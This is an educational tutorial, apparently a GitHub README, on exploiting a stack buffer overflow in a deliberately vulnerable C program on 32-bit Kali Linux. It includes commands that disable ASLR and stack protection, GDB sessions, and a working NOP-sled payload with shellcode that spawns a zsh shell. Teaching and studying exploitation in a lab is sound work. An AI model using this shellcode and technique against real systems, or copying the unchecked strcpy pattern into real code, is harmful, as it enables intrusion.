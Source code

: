 
# Buffer Overflow test Tutorial

This tutorial is based on the Computerphile video, made by Dr. Mike Pound

https://www.youtube.com/watch?v=1S0aBV-Waeo

The tutorial will show you how to trigger and exploit a buffer overflow attack against a custom C program, using Kali Linux 32-bit PAE 2016.1.

Link:
https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-image-download/




## disable memory randomization, enable core dumps
http://securityetalii.es/2013/02/03/how-effective-is-aslr-on-linux-systems/
```shell
cat /proc/sys/kernel/randomize_va_space
sudo bash -c 'echo "kernel.randomize_va_space = 0" >> /etc/sysctl.conf'
sudo sysctl -p
cat /proc/sys/kernel/randomize_va_space
# verify "0"
ulimit -c unlimited
ulimit -c
# verify "unlimited"
```


## scripts

http://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it

[envexec.sh]
```shell
#!/bin/sh

while getopts "dte:h?" opt ; do
  case "$opt" in
    h|\?)
      printf "usage: %s -e KEY=VALUE prog [args...]\n" $(basename $0)
      exit 0
      ;;
    t)
      tty=1
      gdb=1
      ;;
    d)
      gdb=1
      ;;
    e)
      env=$OPTARG
      ;;
  esac
done

shift $(expr $OPTIND - 1)
prog=$(readlink -f $1)
shift
if [ -n "$gdb" ] ; then
  if [ -n "$tty" ]; then
    touch /tmp/gdb-debug-pty
    exec env - $env TERM=screen PWD=$PWD gdb -tty /tmp/gdb-debug-pty --args $prog "$@"
  else
    exec env - $env TERM=screen PWD=$PWD gdb --args $prog "$@"
  fi
else
  exec env - $env TERM=screen PWD=$PWD $prog "$@"
fi
```





[vuln.c]
```c
#include <stdio.h>
#include <string.h>

int main (int argc, char** argv)
{
	char buffer[500];
	strcpy(buffer, argv[1]);

	return 0;
}
```

## Commands

```shell
# compile the code
gcc -z execstack -fno-stack-protector -mpreferred-stack-boundary=2 -g vuln.c -o vuln

# clean the environment, debug
chmod +x envexec.sh
./envexec.sh -d vuln

# clean the environment, execute exploit
./envexec.sh /root/vuln $(python ...)

# run gdb, load a program to analyze
gdb vuln
```

## GDB commands

```shell
# quit the debugger
quit

# clear the screen
ctrl + l
shell clear

# show debugging symbols, ie. code
list
list main

# show the assemlby code
disas main

# examine information
info os

info functions

info variables

# run the program, with input
run Hello

# run the overflow, seg fault
run $(python -c 'print "\x41" * 508')

# examine memory address
x/200x ($esp - 550)

# confirm overwrite of ebp register
info registers

# find a location, below ESP (stack pointer)
EDI = destination index, string / array copying
ESI = source index, string + array copying

EIP = index pointer, next address to execute
EBP = stack base pointer
ESP = stack pointer, starting in high memory, going down
EDX = data register

# run the overflow, launch a zsh shell
run $(python -c 'print "\x90" * 426 + "\x31\xc0\x83\xec\x01\x88\x04\x24\x68\x2f\x7a\x73\x68\x2f\x62\x69\x6e\x68\x2f\x75\x73\x72\x89\xe6\x50\x56\xb0\x0b\x89\xf3\x89\xe1\x31\xd2\xcd\x80\xb0\x01\x31\xdb\xcd\x80" + "\x51\x51\x51\x51" * 10')

# examine memory address
x/200x ($esp - 550)

# convert memeory address to little endian
ecx            0xbfffffc0	-1073741888
edx            0xbffffc3a	-1073742790
ebx            0xb7fb8000	-1208254464
esp            0xbffffc40	0xbffffc40
ebp            0x51515151	0x51515151

0xbf ff fa ba
\xba\xfa\xff\xbf


# run the exploit, execut /bin/zsh5
run $(python -c 'print "\x90" * 425 + "\x31\xc0\x83\xec\x01\x88\x04\x24\x68\x2f\x7a\x73\x68\x68\x2f\x62\x69\x6e\x68\x2f\x75\x73\x72\x89\xe6\x50\x56\xb0\x0b\x89\xf3\x89\xe1\x31\xd2\xcd\x80\xb0\x01\x31\xdb\xcd\x80" + "\xba\xfa\xff\xbf" * 10')
```



***Stack pointer***

-----------------------------------------------------------------------------------------------------------------------

```c
#include <stdio.h>
#include <stdlib.h>

unsigned long *get_stack_ptr(void) {
  __asm__(
    "mov %rsp, %rax"
  );
}

int main(int argc, char **argv) {
  unsigned long *stack_ptr = get_stack_ptr();

  printf("Size Of Ptr: %d bytes\n", sizeof(unsigned long *));
  printf("Stack Pointer: %llX\n", stack_ptr);

  return 0;
}
```
***EDP Check***

----------------------------------------------------------------------------------------------------------------------

```c
#include <stdlib.h>
#include <stdio.h>

void* getEIP () {
return __builtin_return_address(0)-0x5;
};

int main(int argc, char** argv){
printf("EBP located at: %p\n",getEIP());
return 0;
}
```
